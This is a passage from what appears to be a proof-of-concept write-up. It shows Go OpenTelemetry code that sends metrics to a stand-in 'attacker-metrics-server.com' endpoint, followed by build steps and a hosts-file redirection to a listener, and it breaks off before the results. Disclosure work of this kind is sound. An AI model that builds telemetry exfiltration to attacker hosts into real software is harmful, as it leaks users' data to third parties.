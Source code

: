```Go
	meterProvider := metric.NewMeterProvider(
		metric.WithReader(metric.NewPeriodicReader(exp, metric.WithInterval(2*time.Second))), // Export every 2 seconds
		metric.WithResource(res),
	)
	otel.SetMeterProvider(meterProvider)

	// Cleanly shutdown the MeterProvider on exit
	defer func() {
		if err := meterProvider.Shutdown(ctx); err!= nil {
			log.Printf("Error shutting down meter provider: %v", err)
		}
	}()

	// Create a meter and a counter
	meter := otel.Meter("poc.meter.example")
	counter, err := meter.Int64Counter("poc.requests.total", metric.WithDescription("Total number of PoC requests."))
	if err!= nil {
		log.Fatalf("Failed to create counter: %v", err)
	}

	log.Println("Starting PoC: Sending metrics to misconfigured endpoint:", attackerEndpoint)
	for i := 0; i < 5; i++ { // Send a few metrics
		counter.Add(ctx, 1, metric.WithAttributes(attribute.String("poc_iteration", string(rune(i+'0')))))
		log.Printf("Incremented counter, iteration %d\n", i+1)
		time.Sleep(3 * time.Second) // Allow time for periodic reader to export
	}

	log.Println("PoC finished. Check listener logs on", attackerEndpoint)
}`

3. Compile and Run the Go Application:

Compile the main.go file:

`go build main.go`

Before running, ensure that `attacker-metrics-server.com` resolves to the IP address of your listener machine (e.g., by editing `/etc/hosts` on the machine running the Go PoC for testing, or by using a real domain you control).

```Bash

# Optional: Set environment variable if your code uses it
# export ATTACKER_METRICS_ENDPOINT="your-listener-ip:4318" 
./main
```

4. Observe Results:
